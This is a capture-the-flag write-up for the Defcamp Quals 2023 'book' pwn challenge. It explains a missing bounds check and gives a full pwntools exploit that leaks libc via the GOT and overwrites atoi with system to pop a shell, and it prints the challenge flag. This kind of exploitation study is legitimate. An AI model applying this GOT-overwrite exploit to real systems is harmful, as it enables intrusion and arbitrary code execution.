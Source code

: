 ```yaml
---
title: book
date: 2023-10-22T09:56:31+03:00
description: Writeup for book [Defcamp Quals 2023]
type: writeup
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Read books for inspiration so you know what to write!

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec book
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   74 Symbols	  No	0		4		book
```
We have PIE enabled but Partial RELRO. Partial RELRO might mean that we will overwrite GOT entries.

We decompile the binary and find a missing lower bound check for the index of the entry we read/write. We have arbitrary read/write primitives before the address of the todos list. Luckily, the GOT entries are before it. The main idea would be to leak a libc address, find the libc version and overwrite a function with ``system``.

### Solution

We can only leak an arbitrary amount of bytes, until a null byte is found, with the ``printf`` found in ``print_todo``.

```c
void print_todo(void)

{
  int iVar1;
  
  printf("Which entry would you like to read? ");
  fflush(stdout);
  iVar1 = read_int();
  if (iVar1 < 0x81) {
    printf("Your NOTE: %s\n",todos + iVar1 * 0x30);
  }
  else {
    puts("Sorry but this model only supports 128 NOTE list entries.\n");
  }
  return;
}
```
The catch is, we can only read at offsets of ``0x30`` bytes from the beginning of the ``todos``. Luckily it is perfectly aligned with some GOT functions, but the ``"%s"`` format string will run into some issues if it finds the null byte. We choose to leak open as it is perfectly aligned at an offset of ``-4 * 0x30``. We get the address, determine the libc version manually using [libc database](https://libc.blukat.me/) and then determine the offset to ``system`` from ``open``. Luckily we only need the lower 3 bytes of the address from the leak, so the ``"%s"`` format won’t be too inconvenient.

We can use ``store_todo`` to write, again at offsets of ``0x30`` bytes from ``todos``. Below you can find a commented version of the exploit:

```py
#!/usr/bin/env python3

from pwn import *

target = process("./book")
#target = remote("34.89.131.150", 30325)

# Different offsets on local/remote
is_remote = False
if is_remote:
    # libc6_2.31-0ubuntu9.9_amd64 
    system_offset = -0xbba50
else:
    system_offset = -801120

# Addresses found in .got.plt and .data
# PIE is enabled but we write relative to todos address and it will be fine
todos_addr = 0x00104140
open_gotplt_addr = 0x00104080

# Function to transform offsets to indices for todos
def get_offset_idx(addr):
    return (addr - todos_addr) // 48

# Leak open address using arbitrary read primitive
target.sendline(b"sunbather")
target.sendline(b"2")
idx = get_offset_idx(open_gotplt_addr)
target.sendline(str(idx).encode())
target.recvuntil(b"Your NOTE: ")
leak = target.recvline().strip()
print(hex(leak[0]), hex(leak[1]))

# somewhere here we can manually search for the libc version

# Determine system address
open_addr = int.from_bytes(leak, byteorder="little")
system_addr = open_addr + system_offset

# Write relative to todos
idx = get_offset_idx(open_gotplt_addr)
target.sendline(b"3")
target.sendline(str(idx).encode())

# Overwrite GOT entry of atoi
# atoi is right next to open, which means we use the previous open leak
# to keep open intact
leak = leak + b"\x00" * (8 - len(leak)) if len(leak) < 8 else leak # this is just to make sure the leak has 8 bytes
# then overwrite atoi with system
payload = leak + p64(system_addr)

print(b"sending:" + payload)

# pop a shell ;)
target.sendline(payload)
target.interactive()
```

An important thing to add is that we choose ``atoi`` not only because it is easy to overwrite (right next to open), which allows us to keep the rest of the addresses in GOT intact, but also because the next input we give to the program will be directly passed to ``atoi``. Which means that if we replace it with ``system`` we pretty much get a shell.

#### Flag

```CTF{33b9fc73cf5667ace669b51470f10addd390f3abc6101b366ce0eaf239846fc2}```
